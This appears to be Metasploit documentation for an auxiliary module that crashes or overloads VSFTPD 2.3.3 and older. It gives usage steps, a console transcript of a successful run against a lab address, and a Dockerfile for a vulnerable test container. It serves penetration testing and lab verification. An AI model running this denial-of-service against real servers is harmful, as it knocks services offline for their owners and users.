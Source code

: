 ## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking htop on the machine. If the CPU is at max capacity, that would be due to the DOS.

## VSFTPD 2.3.2 - Arch Linux Docker

A simple container was created to easily test this vulnerability. To easily run a vulnerable instance of this application, build this image from this Dockerfile.

```dockerfile
FROM archlinux:latest as build
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-2.3.2.tar.gz
RUN tar zxf vsftpd-2.3.2.tar.gz
WORKDIR /vsftpd-2.3.2
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-2.3.2/vsftpd
RUN mv /vsftpd-2.3.2/vsftpd /bin/vsftpd
RUN mv /vsftpd-2.3.2/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

From there, you can run the instance of the container with this line

```bash
sudo docker build -t vsftpd:2.3.2 .
sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2
```

Run the module against this container and the container will either slow down or crash entirely.
